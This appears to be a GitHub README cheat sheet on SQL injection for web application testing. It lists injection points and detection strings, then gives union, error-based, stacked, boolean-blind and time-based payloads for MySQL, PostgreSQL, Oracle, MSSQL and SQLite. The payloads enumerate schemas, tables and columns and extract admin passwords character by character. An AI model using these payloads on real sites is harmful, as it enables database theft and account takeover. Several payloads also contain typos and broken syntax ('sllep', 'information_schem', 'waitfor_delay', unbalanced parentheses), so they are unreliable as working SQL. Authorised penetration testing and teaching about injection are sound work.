# SQL Injection

- [Types](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Cheat_Sheet/SQL%20Injection/Readme.md#types-of-sql-injection)
- [Injection Points](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Cheat_Sheet/SQL%20Injection/Readme.md#sql-injection-points)
- [Detection](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Cheat_Sheet/SQL%20Injection/Readme.md#detecting-sql-injection)
- [Exploitation](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Cheat_Sheet/SQL%20Injection/Readme.md#exploitation)
---
### Types of SQL Injection

* In Band SQL Injection
* Blind SQL Injection
* OutOfBand Injection

### SQL Injection Points

- **`Login Form`**
- **`Url Search Parameters`**
- **`Url id values`**
- **`Cookie Values`**
- **`XML encoded values like <storeId>**</storeId>`**
- **`Form Input Sections`**
- **`File Upload Sections`**

## Detecting SQL Injection

*  Error Based

        '
        "
        ;
        ;--
        ;#
        `
        ')
        ")
        `)
        '))
        "))
        `))

* Union Based

      ' union select 1,2,3,4;-- -
      ' order by 1,2,3,4;-- -
      ' union select null,null,null,null;-- -
* Boolean Based

      ' and true;-- -
      ' and false;-- -
      ' and 1=1;-- -
      ' and 1=2; -- -
      ' or 1=1; -- -
      ' or 1+2 = 3;-- - 
      ' and 'a' is not 'b
      ' or '1' = '1
* Time Based

  * MySQL
    
        '; select sleep 10;-- -
        ' and sllep 10; -- -
        ' && sleep 10; -- -
        ' | sleep 10; -- -
  * PostgreSQL
    
        ' || pg_sleep(10);-- -
        '; select pg_sleep(10);-- -
  * Oracle
        
        1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
        1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
  * MSSQL

        ' waitfor_delay '0.0.10
  * SQLite

        1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
        1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))

## Exploitation

#### In-Band SQL Injection

- Union Based Attack
```sql
' UNION SELECT 1,2,3,4;-- -
```
```sql
' union select 1,2,group_concat(schema_name),4 from information_schema.tables;-- -
```
```sql
' union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=<database_name>
```
```sql
' union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name = <the_table_name>
```

- Error Based Attacks
```sql
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT version()), '~|~'));-- -
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT @@version), '~|~'));-- -
' AND EXTRACTVALUE(1337, CONCAT('~|~', (SELECT database()), '~|~'));--
```
- Stack Based Attack
```sql
'; select group_concat(schema_name) from information_schem.tables;-- -
```

#### Boolean SQLInjection 

- Extracting database name
```sql
id  =  2'  and  length(database())  >  10;--
```
```sql
id  =  2'  and  ascii(substr(database(),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(database(),2,1)) > 100;--
```
- Extracting table names
```sql
id  =  2'  and  (length(select  table_name  from  information_schema.tables  where  table_schema = '<name of database>' limit 0,1))  >  10;--
```
```sql
id  =  2'  and  ascii(substr(((select  table_name  from  information_schema.tables  where  table_schema = '<name of database>') limit 0,1),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(((select  table_name  from  information_schema.tables  where  table_schema = '<name of database>') limit 2,1),1,1)) > 100;--
```
```sql
id  =  2'  and  ascii(substr(((select  column_name  from  information_schema.columns  where  (table_schema = '<name of database>'  and  table_name = <table name>) limit 0,1),1,1))  >  100;--
```
- Column name enumeration
```sql
id  =  2'  and  ascii(substr(((select  column_name  from  information_schema.columns  where  (table_schema = '<name of database>'  and  table_name = <table name>  and  column_name  !=  <one of the column>) limit 0,1),1,1)) > 100;--
```
- Data Extract
```sql
id  =  2' and  length((select  column_name_here  from  <table name>) limit 0,1)  >  10;--
```
```sql
id  =  2' and  ascii(substr(((select column_name_here  from  <table name>) limit 0,1),1,1)) > 100;--
```
- Admin password extract
```sql
id=1' and (select username from tabke_name_here where username = 'admin') = 'admin';-- -
id=1' and (select username from table_name_here where username = 'admin' and (length(password) > 10)) = 'admin';-- -
id=1' and (select username from table_name_here where username = 'admin' and (ascii(substr(select password from table_name_here where usrename = 'admin')1,1) > 100) = 'admin';-- -
```
#### Time Based Injection
- Functions to be used

        sleep(10)
        pg_sleep(10)
        waitfor delay '0.0.10'
        benchmark()
- General Syntax
```sql
hvdhjv’; select case 
when (1=1) then pg_sleep(10) 
else pg_sleep(0) 
end ;
```
- Table Name Enumeration
```sql
hvdhjv’; select case 
when ((ascii(substring(select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>10) 
then pg_sleep(10) 
else pg_sleep(0) 
end ;
```
- Column Name Enumeration
```sql
hvdhjv’; select case when ((ascii(substring(select column_name from information_schema.columns where table_name=<table_name> limit 1),1,1))>10) then pg_sleep(10) else pg_sleep(0) end ;
```
- Username and Password
```sql
hvdhjv’; select case when ((ascii(substring(select username from <table_name> limit 0,1),1,1))>10) then pg_sleep(10) else pg_sleep(0) end ;
```
- Admin password enumeration
```sql
xyz'|| (case when (substr((select password from users where username='administrator'),1,1) = 'a') then pg_sleep(10) else pg_sleep(0) end) || '
```
```sql
hvdhjv’; select when ((ascii(substring(select password from <table_name> where username='admin'),1,1))>100) then pg_sleep(10) else pg_sleep(0) end ;
```






























































































































































































































































































































































































































































































